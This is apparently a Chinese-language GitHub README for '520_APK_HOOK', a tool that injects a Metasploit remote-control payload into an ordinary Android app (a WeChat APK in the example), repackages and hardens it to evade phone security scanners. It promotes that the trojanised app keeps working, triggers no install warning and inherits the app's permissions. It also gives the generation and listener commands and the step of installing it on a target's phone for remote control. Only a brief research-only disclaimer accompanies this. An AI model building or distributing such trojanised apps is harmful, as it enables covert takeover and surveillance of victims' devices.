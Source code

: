 # 520_APK_HOOK


## 介绍


* 将msf生成的payload，注入到一个正常的apk文件中，重新打包后进行加固，bypass手机安全管家的检测。

* 项目地址: [https://github.com/cleverbao/520apkhook](https://github.com/cleverbao/520apkhook)

* 作者: BaoGuo


## 优点

* 相比于原始的msf远控，此版本app在进行远控时，被注入的app可以正常运行，原始msf生成的app程序，只在桌面上有一个图标，点击后没有任何app界面。

* 注入后的app在安装时，手机管家不会有任何安全提示，原始msf生成的app程序，安装时手机管家会有安全警示。

* 被注入后的app可以正常运行，msf正常在线，继承app的权限。


## 重点说明

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.

* 部分被加固过的app无法进行注入，已测试网易系列💔，360系列💔，腾讯系列❤️，其他的请自行测试。

## 项目依赖

* 本项目参考以下项目

* [apk-steady](https://gitee.com/openjk/apk-steady)

* [apk-jiagu](https://gitee.com/openjk/apk-jiagu)

* [APK Infector](https://github.com/PushpenderIndia/apkinfector)

## 使用


1. 使安装python3, Java环境.

2. 使用python3生成apk文件, 需要指定msf远控链接的IP和端口.

```sh

╭─ ~/520apkhook                                                                                    х INT Py py3 16:36:11
╰─❯ python main.py --lhost 192.168.0.106 --lport 1433  -n ../微信_7.0.22.apk

```

[![asciicast](https://asciinema.org/a/449061.svg)](https://asciinema.org/a/449061)

3. 使用msfconsole加载handler.rc进行服务端监听

```sh

╭─ ~/520apkhook                                                                                    х INT Py py3 16:36:11
╰─❯ msfconsole -r WorkDir/handler.rc

```

[![asciicast](https://asciinema.org/a/449064.svg)](https://asciinema.org/a/449064)

4. 将生成的apk文件在安卓手机进行安装, 即可完成对目标的控制

![安装App](./images/InstallApp.webp)

5. 成功后, 可以在msf中进行远程控制

